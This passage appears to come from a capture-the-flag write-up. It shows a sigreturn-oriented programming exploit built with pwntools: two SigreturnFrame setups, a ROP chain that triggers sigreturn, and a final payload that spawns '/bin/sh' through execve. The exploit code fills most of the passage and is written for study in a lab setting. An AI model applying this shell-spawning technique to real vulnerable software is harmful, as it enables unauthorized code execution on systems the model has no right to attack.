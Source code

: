 Next we want to set up all the registers so we have a controlled stack and
overwrite the first value on the stack with a 0. The sigreturn frame will look
like this:

```py  
frame = SigreturnFrame()  
frame.rax = 0 # read() syscall  
frame.rdi = 0  
frame.rsi = 0  
frame.rdx = 0  
frame.rsp = 0x402000 # set stack to writable memory with know addr  
frame.rip = 0x401018 # jmp to get_input  
```

Once the sigreturn is executed the execution flow of the program will continue
here:

```  
 401018:       48 89 e6                mov    rsi,rsp  
 40101b:       ba 00 10 00 00          mov    edx,0x1000  
 401020:       0f 05                   syscall  
[...]  
```

Now the program will wait for input again, which will then be written to the
stack (0x402000). The first value of our input has to be 0, then we can
overflow the buffer again and set up another sigret just like before.

```py  
payload = p64(0) # overwrite sanity with 0  
payload += p64(mov_rax_6)  
payload += p64(mov_rdi_rax)  
payload += p64(mov_rax_9)  
payload += p64(add_rax_rdi) # set rax=0xf  
payload += p64(0x401072) # syscall (sigret)  
```

The last thing we need to do now is set up the sigreturn frame to execute
`execve("/bin/sh",0,0)` just like in V0. If you thought I forgot about
`"/bin/sh"`, worry not! Since we know the address of the stack all we have to
do is append the string at the very end of our payload and add the length of
the payload to the stack address. The code will look like this:

```py  
frame = SigreturnFrame()  
bin_sh = 0x402000 + len(payload) + len(bytes(frame)) # calculate /bin/sh
address  
frame.rax = 0x3b # execve()  
frame.rdi = bin_sh # /bin/sh address  
frame.rsi = 0  
frame.rdx = 0  
frame.rsp = 0x402000 # doesn't matter really  
frame.rip = 0x401072 # syscall

payload += bytes(frame) # add frame  
payload += b"/bin/sh\x00" # add /bin/sh  
```
